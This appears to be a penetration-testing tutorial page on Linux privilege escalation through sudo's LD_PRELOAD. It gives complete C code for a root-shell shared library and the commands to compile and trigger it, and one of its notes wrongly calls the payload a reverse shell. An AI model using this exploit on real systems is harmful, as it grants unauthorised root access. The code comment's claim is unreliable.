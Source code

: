 ### **STEPS TO IDENTIFY AND EXPLOIT LD_PRELOAD**

1.  To check if LD_PRELOAD is enabled, run sudo -l and look for env_keep+=LD_PRELOAD in the output.  
    `sudo -l`  

    ![](../../../img/Linux-Environment/47.png)
    
    ??? info "NOTE:"

        When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will  execute code as soon as the object is loaded.
    
2.  Craft a C file that will act as the malicious shared library. This library should include an initialization function (`_init`) to perform desired actions (e.g., opening a reverse shell, elevating privileges).
    
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
    ![](../../../img/Linux-Environment/48.png)

    ??? info "NOTE:"

        This example provides a reverse shell to the attacker's machine.

3.  Compile the Malicious Code  
    `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`  
    
    ![](../../../img/Linux-Environment/49.png)
    
4.  Execute any binary you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object.  
    `sudo LD_PRELOAD=/tmp/preload.so /usr/bin/man`  
    
    ![](../../../img/Linux-Environment/50.png)